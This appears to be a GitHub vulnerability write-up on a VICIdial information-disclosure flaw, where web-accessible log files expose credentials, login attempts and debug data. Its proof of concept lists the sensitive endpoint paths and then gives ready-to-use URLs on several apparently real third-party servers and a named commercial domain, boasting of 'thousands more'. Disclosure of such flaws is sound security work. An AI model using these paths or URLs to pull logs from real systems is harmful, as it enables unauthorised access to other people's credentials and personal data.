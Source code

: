 # VICIdial - CVE
## Info/Impact
VICIdial's Web Client contains many sensitive files that can be access from the client side. These files contain mysqli logs, auth logs, debug information, successful and unsuccessful login attempts with their corresponding IP's, User-Agents, credentials and much more. This information can be leveraged by an attacker to gain further access to VICIdial systems.

## PoC (Proof of Concept)

Potential Sensative files/endpoints:

/vicidial/project_auth_entries.txt

/vicidial/agent_reports/AGENT_DAY_<YEAR>-<MONTH>-<DAY>.TXT

/vicidial/agent_reports/

/vicidial/closer_SQL_updates.txt

/agc/vicidial_mysqli_errors.txt

/agc/vicidial_debug.txt

/agc/vicidial_auth_entries.txt

Example URL's:

http://172.104.24.101/vicidial/project_auth_entries.txt
http://172.104.24.101/vicidial/agent_reports/
http://172.104.24.101/agc/vicidial_mysqli_errors.txt
http://172.104.24.101/agc/vicidial_debug.txt
http://172.104.24.101/agc/vicidial_auth_entries.txt

http://35.156.102.118/vicidial/project_auth_entries.txt
http://35.156.102.118/vicidial/agent_reports/
http://35.156.102.118/vicidial/closer_SQL_updates.txt
http://35.156.102.118/agc/vicidial_mysqli_errors.txt
http://35.156.102.118/agc/vicidial_debug.txt
http://35.156.102.118/agc/vicidial_auth_entries.txt

https://callsrevenue.com/vicidial/project_auth_entries.txt
https://callsrevenue.com/agc/vicidial_mysqli_errors.txt
https://callsrevenue.com/agc/vicidial_debug.txt
https://callsrevenue.com/agc/vicidial_auth_entries.txt

http://69.60.110.115/vicidial/agent_reports/
http://69.60.110.115/vicidial/closer_SQL_updates.txt
http://69.60.110.115/agc/vicidial_mysqli_errors.txt
http://69.60.110.115/agc/vicidial_debug.txt

+ Thousands More! :)

